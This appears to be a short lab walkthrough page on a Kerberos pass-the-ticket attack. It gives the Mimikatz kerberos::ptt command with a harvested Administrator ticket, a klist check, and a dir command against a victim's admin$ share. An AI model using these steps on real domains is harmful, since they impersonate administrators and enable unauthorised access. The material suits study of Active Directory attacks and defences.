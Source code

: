 ### Pass the Ticket w/ Mimikatz

Run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

**Victim - Mimikatz**

```
kerberos::ptt [0;2b4efc]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```

<figure><img src="../../.gitbook/assets/image (3) (10).png" alt=""><figcaption></figcaption></figure>

Here were just verifying that we successfully impersonated the ticket by listing our cached ticket.

**Victim**

```
klist
```

<figure><img src="../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

**Victim**

```
dir \\$VICTIM\admin$
```
